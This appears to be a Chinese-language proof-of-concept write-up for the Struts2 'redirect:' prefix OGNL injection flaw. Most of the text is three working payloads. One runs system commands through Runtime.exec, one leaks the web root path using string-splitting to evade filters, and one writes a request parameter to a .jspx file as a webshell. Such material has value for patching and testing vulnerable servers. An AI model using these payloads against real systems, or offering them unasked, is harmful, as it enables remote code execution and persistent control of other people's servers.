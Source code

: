 在struts2中，DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

所以，访问`http://your-ip:8080/index.action?redirect:OGNL表达式`即可执行OGNL表达式。

### poc

执行命令，通过火狐将表达式转url编码

~~~~
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
~~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/01/20220401150610.png)

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/01/20220401150650.png)

获取web目录：

~~~~
redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
~~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/01/20220401151219.png)

写入webshell：

~~~~
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletRequest"),#b=new java.io.FileOutputStream(new java.lang.StringBuilder(#a.getRealPath("/")).append(@java.io.File@separator).append("1.jspx").toString()),#b.write(#a.getParameter("t").getBytes()),#b.close(),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println("BINGO"),#genxor.flush(),#genxor.close()}
~~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/01/20220401151351.png)

